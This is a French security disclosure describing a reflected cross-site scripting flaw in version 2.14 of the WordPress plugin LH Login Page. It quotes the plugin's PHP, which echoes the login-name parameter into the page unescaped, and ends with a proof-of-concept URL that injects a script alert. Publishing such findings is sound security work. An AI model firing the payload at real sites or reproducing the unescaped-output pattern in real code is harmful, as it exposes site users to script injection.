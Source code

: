 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress LH Login Page"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [LH Login Page](https://wordpress.org/plugins/lh-login-page) (slug: `lh-login-page`) se présente de cette façon :

> This plugin provides a shortcode to include a HTML5 login form on a page on your website and will natively link to this form throughout your site. You can configure the plugin to select whether you prefer to use email addresses or user names for your users to login.
> 
> On activation a page with the shortcode [lh_login_page_form] will be created o0n your site, and it will become your front end login page.
> 
> To change the login url to a page where you have the front end form navigate to Wp Admin->Settings->LH Login Page and paste the page id into the field.
> 
> Features:
>
> * Front end login form inserted via shortcode
> * Option to login using an email address rather than username
> * Multiple instances possible: Place login form shortcode multiple pages or in sidebars and widgets
> * Ability to specify a custom url to which users will be redirected on logon
> * If configured will override the WordPress login url so that login links point to to your front end login page (extra security)

La version testée est la 2.14 et date d'il y a 4 ans au moment de ces lignes.

## La vulnérabilité

Les classes PHP nécessaires au plugin sont présentes dans le fichier `lh-login-page.php`.

On y trouve une méthode `lh_login_page_form_output` destinée à générer le code HTML de la page de login :

```php
function lh_login_page_form_output($return_string, $redirect_to){                                              
    if(isset($_GET['login']) && $_GET['login'] == 'failed'){                                                   
        $return_string .=  LH_login_page_plugin::login_header( 'Login failed', __( 'Login failed: You have entered an incorrect email or password, please try again.', $this->namespace ));
    }                                                                                                          
                                                                                                               
    $return_string .= '<form name="lh_login_page-login_form" id="lh_login_page-login_form" action="" method="post" accept-charset="utf-8" data-lh_login_page-nonce="'.wp_create_nonce("lh_login_page-nonce").'" data-lh_login_page-rest_nonce="'.wp_create_nonce( 'wp_rest' ).'" data-lh_login_page-login-user-url="'.$this->return_rest_login_url().'"> <noscript>'.__( 'Please switch on Javascript to enable this registration', $this->namespace ).'</noscript> ';                                                                            
                                                                                                               
    if (isset($this->options[$this->use_email_field_name]) and ($this->options[$this->use_email_field_name] == 1)){
                                                                                                               
        $return_string .= '<p>                                                                                 
            <!--[if lt IE 10]><br/><label for="lh_login_page-user_login">'.__( 'Email', $this->namespace ).'</label><br/><![endif]--><input type="email" id="lh_login_page-user_login" name="lh_login_page-user_login" placeholder="yourname@email.com" required="required"  ';                                                 
    } else {                                                                                                   
        $return_string .= '<p> <!--[if lt IE 10]><br/><label for="lh_login_page-user_login">'.__( 'User name', $this->namespace ).'</label><br/><![endif]--> <input type="text" id="lh_login_page-user_login" name="lh_login_page-user_login" placeholder="your username" required="required"  ';                               
    }                                                                                                          
                                                                                                               
    if (isset($_POST['lh_login_page-user_login'])){                                                            
        $return_string .= ' value="'.$_POST['lh_login_page-user_login'].'"';                                   
    } elseif (isset($_GET['lh_login_page-user_login'])){                                                       
        $return_string .= ' value="'.$_GET['lh_login_page-user_login'].'"';                                    
    }
    --- snip ---
    return $return_string;
}
```

On remarque que le paramètre `lh_login_page-user_login` est pris tel quel pour être affiché dans la page, ouvrant la voie à l'injection de code HTML et Javascript.

PoC : une fois l'adresse de la page de login identifiée (lien `Login Page` sur la page d'index), il suffit de procéder à l'injection dans `lh_login_page-user_login` :

```
http://localhost:8000/?page_id=5&lh_login_page-user_login=%22/%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E
```
